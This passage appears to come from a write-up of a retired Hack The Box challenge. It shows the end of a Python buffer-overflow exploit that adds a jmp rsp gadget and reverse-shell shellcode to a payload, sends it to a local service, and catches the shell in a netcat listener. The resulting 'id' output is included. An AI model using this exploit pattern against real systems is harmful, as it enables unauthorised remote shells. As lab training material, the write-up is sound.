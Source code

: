 ```python
payload += p64(libc_base + jmp_rsp)
payload += shellcode                 # rev shell

r = remote('localhost', 1337)
r.sendline(payload)
```

We can see in the image below:
- Terminal 1: GDB running the binary locally on port 1337
- Terminal 2: Running the python exploit
- Terminal 3: Netcat listener on port 1234
![](images/image12.png)

After running the python script we get our reverse shell back:
```bash
caue@kali:~/htb/retired/activate$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [192.168.1.104] from (UNKNOWN) [192.168.1.104] 41374

id
uid=1000(caue) gid=1000(caue) groups=1000(caue),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(wireshark),121(bluetooth),131(scanner),139(kaboxer)
```
